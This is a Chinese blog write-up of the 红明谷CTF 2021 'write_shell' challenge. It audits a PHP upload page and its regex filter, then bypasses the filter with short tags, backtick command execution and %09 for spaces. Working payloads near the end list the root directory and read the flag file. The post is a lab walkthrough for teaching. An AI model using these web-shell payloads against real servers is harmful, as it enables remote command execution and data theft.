```yaml
---
title: 红明谷CTF 2021 write_shell
date: 2024-05-30 17:20:20
tags: 题解
categories: 刷题笔记
---
```


### [红明谷CTF 2021]write_shell（短标签&代码审计）

打开页面，开始代码审计

<!-- more -->

```
<?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

check方法，过滤了空格，_,php一些东西

```
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}
```

waf用来检查input里是否存在非法字符

```
function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}
```

下面的代码是用来这里使用了访问者的IP地址（通过`$_SERVER['REMOTE_ADDR']` 获取）并对其进行MD5哈希，生成一个唯一的字符串。这个字符串被用来创建一个目录路径，位于 `sandbox/` 目录下。再使用 `file_exists` 函数检查该目录是否已经存在。如果目录不存在，使用 `mkdir` 函数创建这个目录。

```
$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
```

提供可控参数，并进行文件上传

```
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
```

我们先给action传参pwd，查看上传目录

![image-20240602214614014](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406022146067.png)

得到上传目录了，我们进行文件上传，由于eval和_被过滤了，我们不考虑一句话木马，同时php被过滤了，我们使用短标签和反引号用来命令执行，空格也被过滤了，我们使用%09代替

```
?action=upload&data=<?=`ls%09/`?>
```

没出现hacker！！！,说明上传成功了，我们查看目录

![image-20240602214915657](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406022149724.png)

发现了根目录下的文件，我们打开flag文件

```
?action=upload&data=<?=`cat%09/flllllll1112222222lag`?>
```

找到flag

![image-20240602215036764](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406022150789.png)
